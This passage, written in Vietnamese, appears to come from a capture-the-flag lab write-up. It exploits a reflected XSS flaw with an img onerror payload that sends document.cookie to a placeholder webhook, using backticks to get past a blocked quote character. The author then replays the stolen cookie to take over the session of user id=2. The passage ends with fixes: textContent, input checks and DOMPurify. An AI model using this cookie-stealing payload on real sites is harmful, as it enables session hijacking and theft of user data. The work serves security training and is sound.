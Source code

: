 ![image](https://hackmd.io/_uploads/ry2L4tkZxg.png)

Ban đầu, webhook không có request nào gửi ra.

Và sau đó, mình tạo ra 1 thẻ `<img>` như sau:

```bash=
<img src=x onerror="new Image().src=`<url_webhook>?c=`%2Bdocument.cookie">
```

Vì do ta bị chặn dấu `'` nên mình sẽ thay đổi thành **`**

![image](https://hackmd.io/_uploads/HJeDHKy-ex.png)

Nó đã có thể gửi `request` ra webhook. Đồng nghĩa là, sau đó mình gửi cho nạn nhân thì có thể lắp cắp được `cookie`.

![image](https://hackmd.io/_uploads/rylWoSK1bge.png)

`Cookie` của nạn nhân đã gửi về thành công.

![image](https://hackmd.io/_uploads/BJQTSt1Wxg.png)

Mình lấy cookie này để có thể đăng nhập vào phiên đó.

![image](https://hackmd.io/_uploads/BJ3z8Y1Zgx.png)

Mình đã xem được thông tin của user `id=2`

`Flag 3: CBJS{you_have_found_reflected_xss}`

### Recommendations 

- Có thể thay `innerHTML` thành `textContent`
- Kiểm tra giá trị đầu vào 
- Có thể tham khảo `sanitize` với thư viện `DOMPurify`

### References
- https://portswigger.net/web-security/cross-site-scripting/reflected
- https://portswigger.net/web-security/cross-site-scripting/preventing

# III. Kết luận
Quá trình phân tích bảo mật đã phát hiện ra lỗ hổng nghiêm trọng trong ứng dụng. Lỗ hổng này xuất phát từ việc thiếu kiểm soát đầu vào, xử lý dữ liệu không an toàn,
và không áp dụng các biện pháp xác thực. Tác động tiềm tàng bao gồm lộ dữ liệu người dùng, leo thang đặc quyền, và kiểm soát máy chủ, đe dọa nghiêm trọng đến tính bảo mật và toàn vẹn của hệ thống.
<p style="text-align: right;">Trân trọng, h4gphwc</p>